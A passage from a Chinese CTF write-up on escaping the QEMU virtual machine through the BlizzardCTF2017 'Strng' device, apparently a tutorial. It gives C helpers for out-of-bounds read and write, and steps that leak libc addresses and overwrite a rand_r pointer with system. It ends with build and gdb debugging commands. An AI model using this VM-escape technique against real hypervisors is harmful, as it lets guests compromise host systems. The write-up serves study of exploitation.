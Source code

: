 首先是利用pmio来进行任意读写。

* 越界读：首先使用`strng_pmio_write`设置`opaque->addr`，即当`addr`为0时，传入的`val`会直接赋值给`opaque->addr`；然后再调用`strng_pmio_read`，就会去读`regs[val>>2]`的值，实现越界读，代码如下：

  ```c
  uint32_t pmio_arbread(uint32_t offset)
  {
      pmio_write(pmio_base+0,offset);
      return pmio_read(pmio_base+4);
  }
  ```

* 越界写：仍然是首先使用`strng_pmio_write`设置`opaque->addr`，即当`addr`为0时，传入的`val`会直接赋值给`opaque->addr`；然后调用`strng_pmio_write`，并设置`addr`为4，即会去将此次传入的`val`写入到`regs[val>>2]`中，实现越界写，代码如下：

  ```c
  void pmio_abwrite(uint32_t offset, uint32_t value)
  {
      pmio_write(pmio_base+0,offset);
      pmio_write(pmio_base+4,value);
  }
  ```

完整的利用过程为：

1. 使用`strng_mmio_write`将`cat /root/flag`写入到`regs[2]`开始的内存处，用于后续作为参数。
2. 使用越界读漏洞，读取`regs`数组后面的`srand`地址，根据偏移计算出`system`地址。
3. 使用越界写漏洞，覆盖`regs`数组后面的`rand_r`地址，将其覆盖为`system`地址。
4. 最后使用`strng_mmio_write`触发执行`opaque->rand_r(&opaque->regs[2])`函数，从而实现`system("cat /root/flag")`的调用，拿到flag。

### 调试

将完整流程描述了一遍以后，再说下怎么调试。

`sudo ./launsh.sh`将虚拟机跑起来以后，在本地将[exp](https://github.com/ray-cp/vm-escape/blob/master/qemu-escape/BlizzardCTF2017-Strng/exp.c)用命令`make`编译通过，`makefile`内容比较简单：

```bash
ALL:
        cc -m32 -O0 -static -o exp exp.c
```

然后使用命令`scp -P5555 exp ubuntu@127.0.0.1:/home/ubuntu`将exp拷贝到虚拟机中。

若要调试qemu以查看相应的流程，可以使用`ps -ax|grep qemu`找到相应的进程；再`sudo gdb -attach [pid]`上去，然后在里面下断点查看想观察的数据，示例如下：

```bash
b *strng_pmio_write
b *strng_pmio_read
b *strng_mmio_write
b *strng_pmio_read
```

然后再`sudo ./exp`执行exp，就可以愉快的调试了。

一个小trick，可以使用`print`加上结构体可以很方便的查看数据（如果有符号的话）：

